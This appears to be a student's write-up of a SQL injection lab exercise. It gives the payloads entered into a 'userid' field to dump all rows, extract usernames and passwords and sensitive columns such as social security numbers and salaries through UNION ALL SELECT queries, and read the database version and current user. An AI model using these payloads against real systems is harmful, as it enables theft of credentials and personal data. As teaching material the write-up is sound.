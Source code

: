 # SQLi

Find all information about the following properties in the SQL server:

1. ID, firstname, lastname
2. username, password
3. svnr, protected, license, salery, hobbies
4. database version, current user, server version


## ID, firstname, lastname

userid: `1 OR 1=1; --`

![image1](images/1.png)

## username, password

userid: `0 UNION ALL SELECT id, username, password FROM users; --`

![image2](images/2.png)

Note that we adjusted the first query so that it doesn't return rows for readability. For example, userid: `0 UNION ...` or userid: `1 AND 1=0 UNION ...`.

## svnr, protected, license, salery, hobbies

We will need to execute three queries because the number of columns must match the first part of each query.

userid: `0 UNION ALL SELECT id, svnr, protected FROM users; --`

![image3-1](images/3-1.png)

userid: `0 UNION ALL SELECT id, license, salery FROM users; --`

![image3-2](images/3-2.png)

userid: `0 UNION ALL SELECT id, salery, hobbies FROM users; --`

![image3-3](images/3-3.png)

## database version, current user, server version

userid: `1 AND 1=0 UNION ALL SELECT version(), current_user, database(); --`

![image4](images/4.png)

Based on the first column, we can infer that the database is MySQL based on the semantic versioning. A simple Google search can verify our hypothesis:

![image5](images/5.png)